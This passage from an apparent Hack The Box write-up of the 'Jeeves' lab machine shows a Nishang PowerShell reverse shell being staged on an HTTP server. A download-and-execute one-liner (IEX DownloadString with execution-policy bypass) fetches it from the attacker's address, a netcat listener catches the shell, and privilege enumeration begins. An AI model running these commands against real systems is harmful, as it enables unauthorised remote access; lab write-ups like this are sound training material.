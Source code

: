 ![Pasted image 20210420202852.png](../../zzz_res/attachments/Pasted_image_20210420202852.png)

Serve the staged reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443' >> revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo python3 -m http.server 80 
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [20/Apr/2021 14:39:59] "GET /revshell.ps1 HTTP/1.1" 200 -
```

Payload:

```powershell
powershell.exe -exec bypass -nop IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.14/revshell.ps1')
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443 
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\revshell>whoami
jeeves\kohsuke
```

# Privilege Escalation

## Local enumeration

Users info:

```powershell
PS C:\Users\kohsuke\Desktop> net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.

PS C:\Users\kohsuke\Desktop> whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
